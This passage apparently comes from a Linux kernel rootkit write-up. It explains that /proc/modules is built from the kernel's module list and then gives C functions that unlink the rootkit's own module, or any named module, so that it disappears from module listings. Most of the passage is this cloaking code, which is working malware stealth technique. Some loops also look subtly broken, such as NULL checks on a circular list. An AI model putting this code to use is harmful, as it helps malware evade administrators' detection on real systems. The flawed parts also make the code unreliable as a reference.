 

> The file /proc/modules is a special virtual file called **sequence file**. Its implementation is in /kernel/module.c, in which defines the seq-related functions(names *m_start*, *m_show*, ...) to print formatted information of each module by traversing the single-linked list. The creation of this virtual file is by *proc_modules_init()*, read the source code for more detial



​	So to hide a module is simple: we remove the module we want to hide from the single-linked list. The single-linked list is implemented based on *struct list_head* whose definition is under *include/types.h*. And Linux kernel provides us a punch of functions to manipulate the linked list in *include/list.h* (e.g. *list_del*, *list_add*, ..). The implementation is as follows

```c
static int hide_self(void){
    if(rootkit_cloaked) return 1;   // never cloak the rootkit twice!
    prev_mod = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    rootkit_cloaked = 1;
    return 1;
}

static int show_self(void){
    if(!rootkit_cloaked) return 1;  // never uncloak the rootkit twice!
    list_add(&THIS_MODULE->list, prev_mod);
    rootkit_cloaked = 0;
    return 1;
}

static int hide_module_name(char* name){
    int i;
    struct list_head* lh_p;
    struct module* mod_p;
    for(i=0;i<MAX_CLOAK_MOD_COUNT;i++){ // find a empty entry for the new hide request
        if(cloak_mod_ent_array[i].prev_mod == NULL) break;
    }
    if(cloak_mod_ent_array[i].prev_mod && i==MAX_CLOAK_MOD_COUNT-1) return -1;  // too many module to hide

    // find the module
    for(lh_p=&THIS_MODULE->list;lh_p!=NULL;){    // travese backward first
        mod_p = list_entry(lh_p, struct module, list);
        if(!strcmp(mod_p->name, name)){ // found!
            goto out;
        }
        lh_p = mod_p->list.next;
    }
    for(lh_p=&THIS_MODULE->list;lh_p!=NULL;){
        mod_p = list_entry(lh_p, struct module, list);
        if(!strcmp(mod_p->name, name)){
            goto out;
        }
        lh_p = mod_p->list.prev;
    }
    return -2; // not found

out:
    cloak_mod_ent_array[i].prev_mod = mod_p->list.prev;
    strcpy(cloak_mod_ent_array[i].name_buf, mod_p->name);
    list_del(&mod_p->list);
    return 1;
}

```
